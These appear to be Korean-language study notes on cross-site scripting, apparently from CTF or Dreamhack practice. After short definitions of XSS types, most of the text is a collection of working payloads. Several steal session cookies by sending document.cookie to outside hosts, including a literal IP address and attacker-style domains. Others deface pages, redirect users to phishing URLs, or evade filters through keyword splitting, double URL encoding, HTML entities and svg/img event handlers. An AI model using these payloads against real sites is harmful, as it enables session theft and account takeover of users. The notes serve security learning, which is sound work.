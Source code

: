 # 기본개념
XSS(Cross Site Scripting)
웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행시킴
특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있음
SOP 보안 정책이 등장하면서 서로 다른 오리진에서는 정보를 읽는 행위가 이전에 비해 힘들어졌지만
이를 우회하는 다양한 기술이 소개되면서 XSS 공격은 지속되고 있음


# XSS 종류
Stored XSS
XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS

Reflected XSS
XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS

DOM-based XSS
XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS
Fragment는 서버 요청/응답 에 포함되지 않음

Universal XSS
클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS



# 필터링 우회



# 스크립트 예시
쿠키 및 세션 탈취 코드

```javascript
<script> new Image().src = 'http://211.250.216.249:7444/?cookie=' + document.cookie;</script>
<img src="nonexistent.jpg" onerror="new Image().src = 'http://211.250.216.249:7444/?cookie=' + document.cookie;">


<script src="http://malicious-domain.com/evil_script.js">
// "hello" 문자열 alert 실행
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

페이지 변조 공격 코드
```javascript
<script>
// 이용자의 페이지 정보에 접근
document;
// 이용자의 페이지에 데이터를 삽입
document.write("Hacked By DreamHack !");
</script>
```


위치 이동 공격 코드
```javascript
<script>
// 이용자의 위치를 변경
// 피싱 공격 등으로 사용됨
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기, 근데 잘 안되는 것 같음..
window.open("http://hacker.dreamhack.io/")
</script>
```


우회 코드
```javascript
<script>location.href="http://localhost:8080/?cookie="+document.cookie</script>
<img src=x onerror=this.src="http://localhost:8080/?cookie="+document.cookie>
<script>document.write("<img src=http://localhost:8080?cookie="+document.cookie+">")</script>
<script>document.write("<img style='display: none;' src=http://localhost:8080?cookie="+document.cookie+">")</script>
```


on, script, :javascript필터링 우회 시나리오
```javascript
<img src="/memo?memo='test'">
<script>location.href="/memo?memo="+document.cookie</script>
<sconript> document["locatio"+"n"].href="/memo?memo="+document.cookie </soncript>
<img src="/unvalid-url" onerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="document['locatio'+'n'].href='/memo?memo='+document.cookie">
```


단순 공백 치환 우회는 이렇게 쉽게 우회할수 있음
location.href 처럼 어떤 객체의 속성값이 될 수 있다면 
document[location].href 이런식으로 더 노련하게 우회할 수 있음


# 주의할 점
``<script src="/vuln?param=alert(1)"></script>`와 
``<script>location.href="/vuln?param=alert(1)"</script>`는 동작이 다름

```chatgpt
<script src="/vuln?param=alert(1)"></script>: 이 코드는 /vuln?param=alert(1) URL에서 스크립트 파일을 로드하려고 시도합니다. 만약 웹 서버가 이 URL에 대한 스크립트 파일을 반환하면 브라우저는 해당 스크립트를 실행하고 alert(1)을 실행할 것입니다. 이는 XSS (Cross-Site Scripting) 공격의 일반적인 형태입니다.

<script>location.href="/vuln?param=alert(1)"</script>: 이 코드는 현재 페이지를 /vuln?param=alert(1)로 리다이렉트하는 JavaScript 코드입니다. 스크립트가 실행되면 현재 페이지의 URL이 /vuln?param=alert(1)로 변경되고, 브라우저는 이 URL로 이동하게 됩니다. 따라서 이 코드도 사용자에게 alert(1)을 실행시킬 수 있지만, 이것은 간접적인 방법으로 이루어지며 원래 페이지에서 다른 페이지로 이동하는 방식입니다.
```




# 실제 페이로드
### 더블 URL 인코딩 우회
```javascript
<script>location.href="/memo?memo="+document.cookie</script>
\u003Cscript\u003Elocation.href="/memo?memo="+document.cookie\u003C/script\u003E
\u003C\u003E
%253Cscript%253Elocation.href="/memo?memo="+document.cookie%253C/script%253E

<svg/onload=location['hr'+'ef']='/memo?memo='+document['cookie']>
```

### img태그의 onerror
```javascript
<script>location.href="/memo?memo="+document.cookie</script>
<img src="/unvalid-url" onerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" onerror="location.href('/memo?memo='+document.cookie);">
<img src="3" onerror="location.href('/memo?memo=' + document.cookie);">

<svg/onload=location.href="/memo?memo="+document.cookie>
<svg/onload=location["href"]="/memo?memo="+document["cookie"]>
```

# on, script, :javascript필터링

```javascript
<img src="/memo?memo='test'">
<script>location.href="/memo?memo="+document.cookie</script>
<sconript> document["locatio"+"n"].href="/memo?memo="+document.cookie </soncript>
<img src="/unvalid-url" onerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="/memo?memo="+document.cookie>
<img src="/unvalid-url" oonnerror="document['locatio'+'n'].href='/memo?memo='+document.cookie">
```

# 기본적인 태그 우회
```javascript
<img src="" onerror="alert()">
<scrIpt>alert();</scripT>
<img src="" &#x6f;nerror="alert()">
<img src=about: onerror=alert(document.domain)>
<svg src=about: onload=alert(document.domain)>
<body onload=alert(document.domain)>
<video><source onerror=alert(document.domain)></video>
<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
<iframe srcdoc='<img src=about: o&#110;error=parent.alert(document.domain)>'></iframe>
```

# hspace - turndown
https://github.com/mixmark-io/turndown/blob/master/src/turndown.js
```javascript
<script><script>location.href='https://kknock.org/'+document.cookie;<</script>/</script>script>
```
